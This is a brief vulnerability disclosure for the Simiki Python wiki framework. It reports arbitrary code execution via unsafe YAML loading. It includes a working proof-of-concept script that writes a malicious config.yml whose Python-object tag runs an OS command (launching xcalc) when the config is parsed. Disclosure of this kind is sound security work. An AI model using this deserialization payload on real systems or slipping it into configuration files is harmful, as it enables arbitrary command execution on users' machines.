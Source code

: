 # Description

`Simiki` is a simple wiki framework, written in Python.  which is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install simiki
```

### Run exploit.py
```
import os
#os.system('pip3 install simiki')
from simiki import config
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
config.parse_config('config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
